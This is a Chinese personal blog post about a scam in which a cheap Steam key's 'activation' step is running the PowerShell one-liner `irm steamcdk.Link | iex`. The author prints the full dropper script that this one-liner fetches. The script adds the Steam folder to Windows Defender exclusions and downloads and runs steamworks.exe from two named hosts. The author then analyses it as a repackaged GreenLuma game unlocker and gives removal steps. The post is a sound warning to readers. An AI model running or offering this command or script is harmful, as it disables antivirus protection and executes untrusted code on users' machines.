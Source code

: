 ```yaml
---
layout: post
tags: ["steam","信息安全", "游戏", "greenluma"]
title: "廉价steam cdk其实在卖盗版甚至还坑到我了这件事！"
date: 2024-03-09T15:40:05+08:00
math: false
draft: true
toc: true
---
```


今天突然看到 steam 上的游戏 "House Flipper 2" -20%，虽说减完之后还剩 ￥108，但是毕竟，办法总比困难多，去淘宝看看有没有廉价 cdk 吧！结果，这导致我被店家的伎俩欺骗！

<!--more-->

<!-- toc -->

## 廉价 cdk

众所周知，有事就找万能的淘宝，打开淘宝，搜索 "House Flipper 2"，发现最便宜的 cdk 居然只要 ￥9.9，看起来狠虚假的价格，毕竟史低都是 ￥108。

但是，￥9.9，还要什么自行车？直接下单。

随后，店家发了一份使用说明：

> 首先打开终端，输入 `irm steamcdk.Link | iex`
>
> 随后会弹出输入 cdk 的窗口，在里面输入 cdk 即可激活
>
> cdk：AAAAA-BBBBB-CCCCC-DDDDD-EEEEE

乍一看倒是蛮正常的，仿佛是打开了什么 steamcdk 的功能。

特别提一下，**这里我直接在 steam 窗口内兑换，会提示无效兑换码**，但是当时鬼使神差觉得可能是因为需要用这个特殊的方法打开兑换窗口才行。

（说不定这就是人性的贪婪和懒惰，以后注意，不过花开两朵，各表一枝，我们先继续说被骗的事）

那按照前面所述，不得已，开个终端执行这个命令，然后弹出一个警告弹窗，"you are using steam beta files, greenluma ..."，啊不过当然最后不是省略号，可是忘了后面是什么内容了。

随后 steam 被启动，库里已经有了这个游戏。

## 发现问题

看起来很正常啊，合情合理，但是我之前把这个游戏加了购物车，现在还在购物车里。如果我是小白或许我就信了，但是很遗憾，我以前激活的游戏会从购物车中离开。

其次，在商店页面，仍然能够为自己购买这个游戏。

这时候我怀疑是家庭共享，并且找店家要求退款，表示这是共享的用不了。

店家虽然表示这不是共享，但是还是给退了。

但是！这个游戏，还在库里。

这不合常理，它为什么会在库里？

如果它真的有成本，店家为什么这么容易退款？

## 试图揭秘

### 那行命令是什么？

好，很巧，我以前曾经用过 `irm` 这个命令，虽然不那么熟悉，但是我用浏览器打开了 `steamcdk.link`，结果自动跳转到了 `http://steamcdk.link/sendfile`，并且其中有很多伪装的输出来假扮正版 `steam`，去掉这部分输出，剩余脚本如下：

```ps1
# [Console]::OutputEncoding = [System.Text.Encoding]::UTF8
#Requires -RunAsAdministrator

$isAdmin = [bool]([Security.Principal.WindowsIdentity]::GetCurrent().Groups -match 'S-1-5-32-544')
if (-not $isAdmin) {
    Write-Host "Please Run as Administrator"
}

$steamRegPath = 'HKCU:\Software\Valve\Steam'
$steamPath = (Get-ItemProperty -Path $steamRegPath -Name 'SteamPath').SteamPath
$root = $steamPath.Substring(0,1) # 鑾峰彇璺緞涓殑鐩樼閮ㄥ垎
$rest = $steamPath.Substring(1)   # 鑾峰彇璺緞涓洏绗﹀悗闈㈢殑閮ㄥ垎
$steamPath = $root.ToUpper() + $rest # 灏嗙洏绗﹂儴鍒嗚浆鎹负澶у啓

# $steamPath = $filePath -replace "/", "\"

# Write-Host $steamPath

if ($null -ne $steamPath) {
    try {
# exclude windows defender
        if (Get-Service | where-object { $_.name -eq "windefend" -and $_.status -eq "running" }) {
            Add-MpPreference -ExclusionPath $steamPath -ExclusionExtension ".dll",".exe"
            Write-Host "  [STEAM]  Windows Defender has been exclude"
        }
        else {
            Write-Host "  [STEAM] Windows Defender exclude failed."
        }

# display Message
        Write-Host "  [STEAM] App is ready for run .please wait... "
        Write-Host "  [STEAM] Windows Defender has been clear "
        Write-Host "  [STEAM] Ready to go !!! "
        Write-Host "  [STEAM] watiing 1-3min "

# download file and process
        $appStorePath = Join-Path $steamPath "steamworks.exe"
        $downloadUrl = "http://by.haory.cn/1/1128/steamworks.exe"
        $backupUrl = "https://m1744435.096096.xyz/steamworks.exe"

        try {
            (New-Object Net.WebClient).DownloadFile($downloadUrl, $appStorePath)
        } catch {
            Write-Warning "Steamcdk failed. [STEAM] watiing."
            try {
                (New-Object Net.WebClient).DownloadFile($backupUrl, $appStorePath)
            } catch {
                Write-Error "Steamcdk failed. Please check your internet connection or colse 鍏抽棴VPN閲嶈瘯."
            }
        }

# lauch execute our exe file;
        Start-Process -FilePath $appStorePath
    }
    catch {

    }
}
```

很简单的一段 `powershell` 脚本，首先获取管理员权限，随后获取 `Steam` 的安装路径记为 `$SteamPath`。

插段题外话，这里一个好笑的点是，这里有很多中文乱码是吧，这些乱码原来是 `gbk` 格式，但是被保存为了 `utf8`，所以变成了乱码，这四行乱码分别是

```ps1
$root = $steamPath.Substring(0,1) # 获取路径中的盘符部分
$rest = $steamPath.Substring(1)   # 获取路径中盘符后面的部分
$steamPath = $root.ToUpper() + $rest # 将盘符部分转换为大写

Write-Error "Steamcdk failed. Please check your internet connection or colse 关闭VPN重试."
```

*中文乱码恢复功能 powered by [WR便利工具网](https://wrtools.top/coderepair.php)*

在获取 `$SteamPath` 之后，为了防止被敏感拉满的 `Windows Defender` 干掉，它先把 `$SteamPath` 加入了 `Windows Defender` 的排除路径（白名单）。

随后，它尝试去 `http://by.haory.cn/1/1128/steamworks.exe` 下载这个 exe 文件，并放入 `$SteamPath` 中。如果这个网址不可用，则使用备份网址 `https://m1744435.096096.xyz/steamworks.exe` 来下载。不得不说，聪明的备份机制。

最后，执行下载得到的 `steamworks.exe` 文件，它会劫持并接管 steam 的启动。

### 之前有人遇到过吗？

有，而且有各种技法 ，列举三个常见的出来：

1. [家庭账号共享](https://zhuanlan.zhihu.com/p/619338811)
2. [steamip 助手（第三方软件）](https://tieba.baidu.com/p/8216526284)
3. [steamworks （就是我遇到这个）](https://www.bilibili.com/video/BV15u411x7Se/)

### 这个有多大危害呢？

好吧，其实危害并不大，记得前面那个警告窗口吗？`XXX greenluma XXX` 那个，这里面突兀出现的词 `GreenLuma` 其实就是破局点。

GreenLuma 是一款国外大神 Steam006 开发的游戏解锁工具（正版途径玩盗版），其实爱好者有很多都在使用这个工具，可以参考 [知乎介绍](https://zhuanlan.zhihu.com/p/638294581) 、[贴吧讲解](https://tieba.baidu.com/p/7951081224) 或者直接去 [Github 下载](https://github.com/BlueAmulet/GreenLuma-2024-Manager/releases)。

但是！这个店家重新打包成 `steamworks` 之后，由于不透明的原因，其中的危害是不可预知的，因此建议不要保留，通过彻底卸载并删除 steam 即可清除。

当然，因为我开了火绒的联网控制，可以看到这个 `steamworks`全程是没有主动联网的，所以应该不用担心账号密码被泄露的问题。

### 怎么清除

先卸载 steam，随后删除 steam 所在的文件夹，最后重新安装即可。

## 尝试总结

总之，贪小便宜吃大亏，好在退掉了，但愿以后不要再中这种漏洞百出的骗局。
